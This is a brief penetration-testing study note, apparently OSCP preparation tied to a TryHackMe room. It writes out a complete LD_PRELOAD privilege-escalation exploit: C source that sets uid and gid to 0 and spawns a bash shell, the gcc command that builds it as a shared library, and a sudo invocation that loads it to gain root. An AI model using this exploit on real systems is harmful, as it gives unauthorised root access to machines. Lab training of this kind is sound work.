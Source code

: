 ### 2024-04-25-Thu

# LD_PRELOAD & LD_LIBRARY_PATH

https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path

![image](https://github.com/r1skkam/OffSec-PEN-200-OSCP-Preparation/assets/58542375/819d4731-4246-4900-a7c4-afcf1941f852)

```
nano /tmp/pe.c
```

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

```
sudo LD_PRELOAD=./pe.so /usr/bin/ping
```

![image](https://github.com/r1skkam/OffSec-PEN-200-OSCP-Preparation/assets/58542375/06c07e02-d318-4e9c-a46e-a9fbcbe48ed7)

https://tryhackme.com/r/room/creative
